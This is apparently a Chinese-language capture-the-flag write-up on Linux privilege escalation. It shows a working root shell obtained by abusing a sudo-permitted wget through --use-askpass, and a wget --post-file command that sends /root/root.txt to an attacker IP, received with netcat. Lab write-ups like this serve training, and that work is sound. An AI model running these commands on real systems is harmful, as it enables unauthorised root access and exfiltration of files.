 



## Privilege Escalation

## 1、 wget sudo提权

```Bash
# sammy存在sudo
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget

```



```Bash
-bash-4.4$ TF=$(mktemp)
-bash-4.4$ chmod +x $TF
-bash-4.4$ echo -e '#!/bin/sh\n/bin/sh 1>&0' > $TF
-bash-4.4$ sudo wget --use-askpass=$TF 0
root@sunday:/tmp# ud
/bin/sh: ud: not found [No such file or directory]
root@sunday:/tmp# id
uid=0(root) gid=0(root)
root@sunday:/tmp# cat /root/root.txt
21be1463a123cfcbf1fa1241f01e592f
root@sunday:/tmp#

```



## 2、wget 推文件到kali上，必须使用nc

提示服务器不支持post方法

```Bash
-bash-4.4$  sudo wget --post-file /root/root.txt http://10.10.16.11:443/
--2023-01-11 15:24:12--  http://10.10.16.11:443/
Connecting to 10.10.16.11:443... connected.
HTTP request sent, awaiting response... 501 Unsupported method ('POST')
2023-01-11 15:24:12 ERROR 501: Unsupported method ('POST').

```

```Bash
└─# python -m http.server 443
Serving HTTP on 0.0.0.0 port 443 (http://0.0.0.0:443/) ...
10.10.10.76 - - [11/Jan/2023 23:24:04] code 501, message Unsupported method ('POST')
10.10.10.76 - - [11/Jan/2023 23:24:04] "POST / HTTP/1.1" 501 -

```

把http启动方式从python改成nc，虽然服务端没有正常的response，但是服务端可以收到请求，即拿到了文件内容
